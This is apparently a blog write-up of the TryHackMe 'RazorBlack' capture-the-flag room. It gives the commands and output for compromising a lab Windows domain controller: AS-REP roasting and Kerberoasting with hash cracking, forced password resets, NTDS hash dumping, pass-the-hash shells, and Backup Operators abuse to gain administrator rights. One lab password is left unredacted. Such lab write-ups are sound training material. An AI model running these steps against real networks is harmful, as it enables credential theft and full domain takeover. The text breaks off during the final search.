




# RazorBlack
**Date:** May 16th 2022

**Author:** j.info

**Link:** [**RazorBlack**](https://tryhackme.com/room/raz0rblack) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Medium

<br>



<br>

## Objectives
- What is the Domain Name?
- What is Steven's Flag?
- What is the zip file's password?
- What is Ljudmila's Hash?
- What is Ljudmila's Flag?
- What is Xyan1d3's password?
- What is Xyan1d3's Flag?
- What is the root flag?
- What is Tyson's Flag?
- What is the complete top secret?

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 10.10.154.89`

```bash
PORT      STATE  SERVICE       VERSION
3/tcp     closed compressnet
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2022-05-16 15:32:22Z)
111/tcp   open   rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds?
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
2049/tcp  open   mountd        1-3 (RPC #100005)
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
3389/tcp  open   ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-05-16T15:33:19+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RAZ0RBLACK
|   NetBIOS_Domain_Name: RAZ0RBLACK
|   NetBIOS_Computer_Name: HAVEN-DC
|   DNS_Domain_Name: raz0rblack.thm
|   DNS_Computer_Name: HAVEN-DC.raz0rblack.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2022-05-16T15:33:11+00:00
| ssl-cert: Subject: commonName=HAVEN-DC.raz0rblack.thm
| Not valid before: 2022-05-15T15:21:19
|_Not valid after:  2022-11-14T15:21:19
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open   mc-nmf        .NET Message Framing
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49667/tcp open   msrpc         Microsoft Windows RPC
49669/tcp open   msrpc         Microsoft Windows RPC
49672/tcp open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open   msrpc         Microsoft Windows RPC
49674/tcp open   msrpc         Microsoft Windows RPC
49678/tcp open   msrpc         Microsoft Windows RPC
49693/tcp open   msrpc         Microsoft Windows RPC
49705/tcp open   msrpc         Microsoft Windows RPC
Service Info: Host: HAVEN-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

That answers our 1st objective: What is the Domain Name?

<br>

## NFS Digging

Taking a look at available NFS shares on the server:

`showmount -e 10.10.154.89`

```bash
Export list for 10.10.154.89:
/users (everyone)
```

Let's see what's out there in that folder:

`sudo mount -t nfs -o vers=2 10.10.154.89:/users /home/kali/work/mountdir`

`sudo su` and then `cd mountdir` followed by `ls -al`

```bash
-rwx------ 1 4294967294 4294967294 9861 Feb 25  2021 employee_status.xlsx
-rwx------ 1 4294967294 4294967294   80 Feb 25  2021 sbradley.txt
```

I copy those to my local machine and then umount the directory.

Looking at **sbradley.txt** shows us the answer to the 2nd objective: What is Steven's Flag?

```bash
��THM{<REDACTED>}
```

And opening the **employee_status.xlsx** file:



That gives us several potential usernames to take note of. For username formatting it's probably first initial + last name since the **sbradley.txt** file is that way.

<br>

## Kerberos Digging

I create a file with a list of usernames:

```
dport
iroyce
tvidal
aedwards
cingram
ncassidy
rzaydan
lvetrova
rdelgado
twilliams
sbradley
clin
```

And then run **impacket-GetNPUsers** to see if we can gather any hashes:

`impacket-GetNPUsers -usersfile users.txt raz0rblack.thm/`

```bash
[-] User lvetrova doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$twilliams@RAZ0RBLACK.THM:d2cf44f5b7d6d13cad6193f024acc882$100ddb853a685e6efdef8c0293f2824b2fc38c10024d82c7fe5d1b6b78132c7608d9b79a0068df4e8029e575119d7c60623a793803830179b2d09ea66bad4f5a58590dc77b71f140080e1fcf8f8cd6ad59da71b111d8527a600bc93e1d93af14fc0946b9259a9a0e833f06449dc7bfbdb0c51a211c0160a15946f18f22ca48ee2ad658932a6fb0877698e09c7b2e586044b933762d78cd3f9bd263abd88416c2f4bb39b81e5de211fe8807d5deac6a0fe619ba0e35b2e12a4de348ee63b35c4fb378efa5b07fc77631ffde90ad056073a6a645ecc018287af2b0c3b87628ae9d4126815d5a4f24182bac0e9163f6962e
[-] User sbradley doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Several other usernames showed as not found, so it looks like we have 3 valid usernames and 1 hash to try and crack.

Sending the hash through **hashcat**:

`hashcat -m 18200 -w 3 -D 1,2 hash.txt rockyou.txt`

```bash
$krb5asrep$23$twilliams@RAZ0RBLACK.THM:d2cf44f5b7d6d13cad6193f024acc882$100ddb853a685e6efdef8c0293f2824b2fc38c10024d82c7fe5d1b6b78132c7608d9b79a0068df4e8029e575119d7c60623a793803830179b2d09ea66bad4f5a58590dc77b71f140080e1fcf8f8cd6ad59da71b111d8527a600bc93e1d93af14fc0946b9259a9a0e833f06449dc7bfbdb0c51a211c0160a15946f18f22ca48ee2ad658932a6fb0877698e09c7b2e586044b933762d78cd3f9bd263abd88416c2f4bb39b81e5de211fe8807d5deac6a0fe619ba0e35b2e12a4de348ee63b35c4fb378efa5b07fc77631ffde90ad056073a6a645ecc018287af2b0c3b87628ae9d4126815d5a4f24182bac0e9163f6962e:<REDACTED>
Recovered........: 1/1 (100.00%) Digests
```

I try and connect over via RDP with this username and password but am unable.

<br>

## SMB Digging

RDP didn't work, but let's see if we can use SMB with this user:

`smbclient -L //10.10.219.4 -U twilliams -p`

```bash
Enter WORKGROUP\twilliams's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        trash           Disk      Files Pending for deletion
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.219.4 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

We don't have access to the first 2, and the second 2 are empty.

In **SYSVOL** we see a directory called **raz0rblack.thm** and I mget it down to my system:

```bash
smb: \> ls
  .                                   D        0  Tue Feb 23 09:59:48 2021
  ..                                  D        0  Tue Feb 23 09:59:48 2021
  raz0rblack.thm                     Dr        0  Tue Feb 23 09:59:48 2021

                5101823 blocks of size 4096. 970134 blocks available
smb: \> prompt
smb: \> recurse
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \raz0rblack.thm\DfsrPrivate\*
getting file \raz0rblack.thm\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 23 as raz0rblack.thm/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \raz0rblack.thm\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as raz0rblack.thm/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \raz0rblack.thm\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol of size 2796 as raz0rblack.thm/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol (8.6 KiloBytes/sec) (average 2.9 KiloBytes/sec)
getting file \raz0rblack.thm\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 1096 as raz0rblack.thm/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (3.1 KiloBytes/sec) (average 3.0 KiloBytes/sec)
getting file \raz0rblack.thm\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 3764 as raz0rblack.thm/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (10.8 KiloBytes/sec) (average 4.6 KiloBytes/sec)
```

And finally with **trash** we can access it, but can't list any files.

I look through all of the files but don't find anything interesting.

Trying to use **smbexec.py** and **evil-winrm** to get a shell doesn't work unfortunately. I also can't use **atexec.py**.

Enumerating users with **crackmapexec**:

`crackmapexec smb 10.10.138.244 -u twilliams  -p <REDACTED> --users`

```bash
SMB         10.10.138.244   445    HAVEN-DC         [*] Windows 10.0 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:False)
SMB         10.10.138.244   445    HAVEN-DC         [+] raz0rblack.thm\twilliams:roastpotatoes 
SMB         10.10.138.244   445    HAVEN-DC         [+] Enumerated domain user(s)
SMB         10.10.138.244   445    HAVEN-DC         raz0rblack.thm\twilliams                      badpwdcount: 0 baddpwdtime: 1600-12-31 19:00:00
SMB         10.10.138.244   445    HAVEN-DC         raz0rblack.thm\sbradley                       badpwdcount: 0 baddpwdtime: 1600-12-31 19:00:00
SMB         10.10.138.244   445    HAVEN-DC         raz0rblack.thm\lvetrova                       badpwdcount: 0 baddpwdtime: 2021-03-16 01:05:29.960328
SMB         10.10.138.244   445    HAVEN-DC         raz0rblack.thm\xyan1d3                        badpwdcount: 0 baddpwdtime: 1600-12-31 19:00:00
SMB         10.10.138.244   445    HAVEN-DC         raz0rblack.thm\krbtgt                         badpwdcount: 0 baddpwdtime: 1600-12-31 19:00:00
SMB         10.10.138.244   445    HAVEN-DC         raz0rblack.thm\Guest                          badpwdcount: 0 baddpwdtime: 1600-12-31 19:00:00
SMB         10.10.138.244   445    HAVEN-DC         raz0rblack.thm\Administrator                  badpwdcount: 0 baddpwdtime: 2021-02-27 14:09:59.486202
```

One interesting thing is when doing further enumeration with all users instead of just twilliams using crackmapexec with the users.txt file we created it tells us that user sbradley must change his password:

`crackmapexec ldap 10.10.138.244 -u users.txt -p <REDACTED> --asreproast test.txt`

```bash
SMB         10.10.138.244   445    HAVEN-DC         [-] raz0rblack.thm\sbradley:<REDACTED> STATUS_PASSWORD_MUST_CHANGE
```

That tells me that both twilliams and sbradley have the same password, and we should be able to change his password to whatever we want using **smbpasswd**:

`smbpasswd -r 10.10.138.244 -U sbradley`

```bash
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user sbradley
```

We can't RDP over with this either, but we do see additional files in the SMB shares that I download to my system:

`smbclient \\\\10.10.138.244\\trash -U sbradley -p`

```bash
Enter WORKGROUP\sbradley's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Mar 16 02:01:28 2021
  ..                                  D        0  Tue Mar 16 02:01:28 2021
  chat_log_20210222143423.txt         A     1340  Thu Feb 25 14:29:05 2021
  experiment_gone_wrong.zip           A 18927164  Tue Mar 16 02:02:20 2021
  sbradley.txt                        A       37  Sat Feb 27 14:24:21 2021

                5101823 blocks of size 4096. 945401 blocks available
```

Viewing the **chat_log_20210222143423.txt** file:

```
sbradley> Hey Administrator our machine has the newly disclosed vulnerability for Windows Server 2019.
Administrator> What vulnerability??
sbradley> That new CVE-2020-1472 which is called ZeroLogon has released a new PoC.
Administrator> I have given you the last warning. If you exploit this on this Domain Controller as you did previously on our old Ubuntu server with dirtycow, I swear I will kill your WinRM-Access.
sbradley> Hey you won't believe what I am seeing.
Administrator> Now, don't say that you ran the exploit.
sbradley> Yeah, The exploit works great it needs nothing like credentials. Just give it IP and domain name and it resets the Administrator pass to an empty hash.
sbradley> I also used some tools to extract ntds. dit and SYSTEM.hive and transferred it into my box. I love running secretsdump.py on those files and dumped the hash.
Administrator> I am feeling like a new cron has been issued in my body named heart attack which will be executed within the next minute.
Administrator> But, Before I die I will kill your WinRM access..........
sbradley> I have made an encrypted zip containing the ntds.dit and the SYSTEM.hive and uploaded the zip inside the trash share.
sbradley> Hey Administrator are you there ...
sbradley> Administrator .....

The administrator died after this incident.

Press F to pay respects
```

The **sbradley.txt** is just another copy of Steven's flag which we already got previously.

The **experiment_gone_wrong.zip** file is password protected so I **zip2john** it and crack:

`zip2john experiment_gone_wrong.zip > hash`

`john hash --wordlist=rockyou.txt`

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED> (experiment_gone_wrong.zip)     
1g 0:00:00:00 DONE (2022-05-16 14:25) 1.851g/s 15519Kp/s 15519Kc/s 15519KC/s elfo2009..elboty2009
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

That gives us the answer to the 3rd objective: What is the zip file's password?

And unzipping it shows us the files mentioned in the chat text file:

```bash
-rwxr-xr-x  1 kali kali 58720256 Mar 16  2021 ntds.dit
-rwxr-xr-x  1 kali kali 16281600 Mar 16  2021 system.hive
```

We can now use **secretsdump** to extract all of the hashes since we have the 2 files required to use it:

`secretsdump.py -ntds ntds.dit -system system.hive LOCAL > results.txt`

And then I trim it down to just the hashes:

`cat results.txt | cut -d ':' -f 4 > hashes.txt`

The next objective asks us what Ljudmila's hash is, so instead of trying to match all users against the hash list, which would take a long time since there are over 1000 hashes, I'm just going to target her user.

`crackmapexec smb 10.10.184.90 -u lvetrova -H hashes.txt`

```bash
SMB         10.10.184.90    445    HAVEN-DC         [+] raz0rblack.thm\lvetrova:<REDACTED>
```

Thankfully it found it fairly quickly and didn't have to go through most of the hashes. This answers the 4th objective: What is Ljudmila's Hash?

<br>

## lvetrova User

Now let's see if we can get onto the system with this hash:

`evil-winrm -i 10.10.184.90 -u lvetrova -H <REDACTED>`

```bash
Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\lvetrova\Documents> whoami
raz0rblack\lvetrova
*Evil-WinRM* PS C:\Users\lvetrova\Documents> hostname
HAVEN-DC
*Evil-WinRM* PS C:\Users\lvetrova\Documents>
```

<br>

## System Enumeration

There are no files in the Documents or Desktop folders but in her base folder **C:\users\lvetrova** we find a file called **lvetrova.xml** with the following in it:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Objs xmlns="http://schemas.microsoft.com/powershell/2004/04" Version="1.1.0.1">
   <Obj RefId="0">
      <TN RefId="0">
         <T>System.Management.Automation.PSCredential</T>
         <T>System.Object</T>
      </TN>
      <ToString>System.Management.Automation.PSCredential</ToString>
      <Props>
         <S N="UserName">Your Flag is here =&gt;</S>
         <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb010000009db56a0543f441469fc81aadb02945d20000000002000000000003660000c000000010000000069a026f82c590fa867556fe4495ca870000000004800000a0000000100000003b5bf64299ad06afde3fc9d6efe72d35500000002828ad79f53f3f38ceb3d8a8c41179a54dc94cab7b17ba52d0b9fc62dfd4a205f2bba2688e8e67e5cbc6d6584496d107b4307469b95eb3fdfd855abe27334a5fe32a8b35a3a0b6424081e14dc387902414000000e6e36273726b3c093bbbb4e976392a874772576d</SS>
      </Props>
   </Obj>
</Objs>
```

The password is stored as a powershell PSCredential object and doing some searching online shows us that you can export this type of object to an .xml file. You can also import these .xml files, and if you're logged in as the user the credentials are for, you can display it in plain text.

[**Information on how to do this was found here**](https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx?m=1)

I run the following 2 commands and it displays the plain text flag answering the 5th objective: What is Ljudmila's Flag?

`$credential = Import-CliXml -Path lvetrova.xml`

`$credential.GetNetworkCredential().Password`

```
THM{<REDACTED>}
```

I look around her home directory but don't find anything else.

Looking at **net user** shows us:

```powershell
User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    krbtgt
lvetrova                 sbradley                 twilliams
xyan1d3
```

Other than Administrator the **xyan1d3** user has the highest privileges being a member of the **Backup Operators** group.

Looking in **c:\users** the following users have home directories:

```powershell
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/25/2021   1:25 PM                Administrator
d-----        2/25/2021  10:16 AM                lvetrova
d-r---        2/23/2021   6:21 AM                Public
d-----        2/25/2021  10:20 AM                twilliams
d-----        2/25/2021   9:34 AM                xyan1d3
```

We didn't try to use **impacket GetUserSPNs** yet, let's do that to see if we can do any **Kerberoasting**. Note: this command requires 2 hashes and you can use the same hash twice separated by a : to replace the redacted value in this command:

`GetUserSPNs.py raz0rblack.thm/lvetrova -hashes <REDACTED>`

```bash
Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

ServicePrincipalName                   Name     MemberOf                                                    PasswordLastSet             LastLogon  Delegation 
-------------------------------------  -------  ----------------------------------------------------------  --------------------------  ---------  ----------
HAVEN-DC/xyan1d3.raz0rblack.thm:60111  xyan1d3  CN=Remote Management Users,CN=Builtin,DC=raz0rblack,DC=thm  2021-02-23 10:17:17.715160  <never>
```

That's promising! We should be able to request a ticket for user **xyan1d3**.

`GetUserSPNs.py raz0rblack.thm/lvetrova -hashes <REDACTED> -request`

```bash
$krb5tgs$23$*xyan1d3$RAZ0RBLACK.THM$raz0rblack.thm/xyan1d3*---SNIP---
```

And running that through **hashcat** cracks it pretty quickly:

`hashcat -m 13100 -w 3 -D 1,2 hash.txt rockyou.txt`

```bash
---SNIP---:<REDACTED>
Recovered........: 1/1 (100.00%) Digests
```

That gives us the answer to the 6th objective: What is Xyan1d3's password?

<br>

## xyan1d3 user

And connecting back over as xyan1d3:

`evil-winrm -i 10.10.175.115 -u xyan1d3 -p <REDACTED>`

```bash
*Evil-WinRM* PS C:\Users\xyan1d3\Documents> whoami
raz0rblack\xyan1d3
*Evil-WinRM* PS C:\Users\xyan1d3\Documents> hostname
HAVEN-DC
```

Again, no files on the Desktop or in the Documents folder. We see another .xml PSCredential object in **c:\users\xyan1d3** though:

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">Nope your flag is not here</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb010000006bc3424112257a48aa7937963e14ed790000000002000000000003660000c000000010000000f098beb903e1a489eed98b779f3c70b80000000004800000a000000010000000e59705c44a560ce4c53e837d111bb39970000000feda9c94c6cd1687ffded5f438c59b080362e7e2fe0d9be8d2ab96ec7895303d167d5b38ce255ac6c01d7ac510ef662e48c53d3c89645053599c00d9e8a15598e8109d23a91a8663f886de1ba405806944f3f7e7df84091af0c73a4effac97ad05a3d6822cdeb06d4f415ba19587574f1400000051021e80fd5264d9730df52d2567cd7285726da2</SS>
    </Props>
  </Obj>
</Objs>
```

It says the flag is not there, but I go ahead and decode it anyways using the exact same method we used above for lvetrova. And when we do, it is actually there:

`$credential = Import-CliXml -Path xyan1d3.xml`

`$credential.GetNetworkCredential().Password`

```
LOL here it is -> THM{<REDACTED>}
```

That gives us the answer to the 7th objective: What is Xyan1d3's Flag?

I tried to use crackmapexec to match a hash from the list of all hashes to the xyan1d3 user like we did earlier for lvetrova but no luck.

<br>

## Backup Operator Abuse

Let's use the backup operators group to our advantage.

```powershell
SeBackupPrivilege             Back up files and directories  Enabled
```

Looking in the **c:\users\administrator** folder we can see the following files:

```powershell
    Directory: C:\users\administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/25/2021   1:08 PM            290 cookie.json
-a----        2/25/2021   1:12 PM           2512 root.xml
```

Trying to type either of those gives a not authorized message. To get around that I'll use **robocopy**:

`robocopy /b c:\users\administrator c:\users\xyan1d3`

And trying to view **cookie.json** back over in **c:\users\xyan1d3**:

`type cookie.json`

```json
{
        auth : "TG9vayB0aGlzIGlzIHlvdXIgY29va2llLgpGdW5GYWN0IDogVGhpcyBjb29raWUgY2FuIGNoYW5nZSBpdHMgb3duIGZsYXZvdXIgYXV0b21hdGljYWxseS4gVG8gdGVzdCBpdCBqdXN0IHRoaW5rIG9mIHlvdXIgZmF2b3VyaXRlIGZsYXZvdXIuCgpBbmQgc3RvcCBwdXR0aW5nICdPUiAnMSc9JzEgaW5zaWRlIGxvZ2luLnBocAoKRW5qb3kgeW91ciBDb29raWU="
}
```

Looks a lot like **base64** so I run it through the base64 command:

`echo "TG9vayB0aGlzIGlzIHlvdXIgY29va2llLgpGdW5GYWN0IDogVGhpcyBjb29raWUgY2FuIGNoYW5nZSBpdHMgb3duIGZsYXZvdXIgYXV0b21hdGljYWxseS4gVG8gdGVzdCBpdCBqdXN0IHRoaW5rIG9mIHlvdXIgZmF2b3VyaXRlIGZsYXZvdXIuCgpBbmQgc3RvcCBwdXR0aW5nICdPUiAnMSc9JzEgaW5zaWRlIGxvZ2luLnBocAoKRW5qb3kgeW91ciBDb29raWU=" | base64 -d`

```
Look this is your cookie.
FunFact : This cookie can change its own flavour automatically. To test it just think of your favourite flavour.

And stop putting 'OR '1'='1 inside login.php

Enjoy your Cookie
```

<br>

## Privilege Escalation

I found a really great article that explains how if you have backup operator membership you can escalate your priviliges over to admin, and decide to give it a try.

[**You can find the article here which I use in the following steps**](https://www.inguardians.com/wp-content/uploads/2020/04/BackupOperators-1.pdf)

First you take a look at the **GptTmpl.inf** file to find out the backup operator SID numbers:

`type "C:\Windows\SYSVOL\domain\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\machine\microsoft\Windows NT\SecEdit\GptTmpl.inf"`

```powershell
SeBackupPrivilege = *S-1-5-32-549,*S-1-5-32-551,*S-1-5-32-544
```

Then download the file to your local machine:

`download GptTmpl.inf`

```powershell
Info: Downloading GptTmpl.inf to ./GptTmpl.inf


Info: Download successful!
```

You'll need your own SID number for this, and you can get that like this:

`whoami /all`

```powershell
USER INFORMATION
----------------

User Name          SID
================== ============================================
raz0rblack\xyan1d3 S-1-5-21-3403444377-2687699443-13012745-1106
```

After editing the file and adding the **Group Membership** section at the bottom I upload it back to the system and then robocopy it back to it's original folder overwriting the existing one with our updated file:

`robocopy /b "c:\users\xyan1d3" "C:\Windows\SYSVOL\domain\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\machine\microsoft\Windows NT\SecEdit" GptTmpl.inf`

```powershell
[Group Membership]
*S-1-5-21-3403444377-2687699443-13012745-1106__Memberof = *S-1-5-32-544
*S-1-5-21-3403444377-2687699443-13012745-1106__Members =
```

Force a group policy update for the changes to take place:

`gpupdate /force`

```powershell
Updating policy...


Computer Policy update has completed successfully.

User Policy update has completed successfully.
```

Checking the administrators group shows that our user xyan1d3 has been added:

`net localgroup administrators`

```powershell
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
xyan1d3
The command completed successfully.
```

Changing over to **c:\users\twilliams** and looking at the files shows this:

```powershell
-a----        2/25/2021  10:20 AM             80 definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_not_a_flag.exe
```

`robocopy /b "c:\users\twilliams" "c:\users\xyan1d3"`

The long file above isn't actually an executable and you can just `type` the file you copied over to display the flag, which answers the 9th objective: What is Tyson's Flag?

```
THM{<REDACTED>}
```

We then go after the **root.xml** file in the administrator directory and copy it back to our directory:

`robocopy /b "c:\users\administrator" "c:\users\xyan1d3" root.xml`

And viewing the file back in **c:\users\xyan1d3** shows us that it's a PSCredential object just like the previous ones:

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">Administrator</S>
      <SS N="Password">44616d6e20796f752061726520612067656e6975732e0a4275742c20492061706f6c6f67697a6520666f72206368656174696e6720796f75206c696b6520746869732e0a0a4865726520697320796f757220526f6f7420466c61670a54484d7b31623466343663633466626134363334383237336431386463393164613230647d0a0a546167206d65206f6e2068747470733a2f2f747769747465722e636f6d2f5879616e3164332061626f75742077686174207061727420796f7520656e6a6f796564206f6e207468697320626f7820616e642077686174207061727420796f75207374727567676c656420776974682e0a0a496620796f7520656e6a6f796564207468697320626f7820796f75206d617920616c736f2074616b652061206c6f6f6b20617420746865206c696e75786167656e637920726f6f6d20696e207472796861636b6d652e0a576869636820636f6e7461696e7320736f6d65206c696e75782066756e64616d656e74616c7320616e642070726976696c65676520657363616c6174696f6e2068747470733a2f2f7472796861636b6d652e636f6d2f726f6f6d2f6c696e75786167656e63792e0a</SS>
  </Obj>
</Objs>
```

This time however we get an error message when trying to display it in clear text:

```powershell
The data is invalid.

At line:1 char:15
+ $credential = Import-CliXml -Path root.xml
+               ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Import-Clixml], CryptographicException
    + FullyQualifiedErrorId : System.Security.Cryptography.CryptographicException,Microsoft.PowerShell.Commands.ImportClixmlCommand
```

I tried looking through the data to see if there was something out of place formatting wise and couldn't see anything wrong with it after comparing it to the previous .xml files.

Eventually I throw the text in **cyberchef** using the magic formula and it ends up decoding from hex to display the clear text flag and a message:



That answers the 8th objective: What is the root flag?

Our last objective is asking what the top secret is, so I try and search for any files named top and find the following matching that criteria:

`Get-ChildItem -Path c:\ -Filter *top* -Recurse -ErrorAction SilentlyContinue -Force -Exclude *desktop*`

```powershell
    Directory: C:\Program Files


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
